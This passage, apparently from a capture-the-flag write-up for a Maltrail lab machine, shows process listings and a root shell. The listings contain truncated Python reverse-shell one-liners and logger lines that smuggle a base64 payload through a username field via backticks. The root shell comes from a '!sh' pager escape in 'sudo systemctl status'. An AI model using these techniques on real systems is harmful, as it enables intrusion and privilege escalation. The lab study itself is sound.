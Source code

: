 ```bash
             ├─1271 python3 -c import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.1>
             ├─1272 /bin/sh
             ├─1310 sudo systemctl status trail.service
             ├─1311 systemctl status trail.service
             ├─1312 pager
             ├─1314 sh -c /bin/bash -c sh
             ├─1315 sh
             ├─1427 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed password for ;`echo "cHl0aG9uMyAtYyAnaW1wb3J>
             ├─1428 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed password for ;`echo "cHl0aG9uMyAtYyAnaW1wb3J>
             ├─1431 sh

             ├─1836 python3 -c import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.1>
!sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

**Finally let's get the root flag**

```bash
# cat /root/root.txt
f1f5b42f2999f015b2047f3b5d28e391
```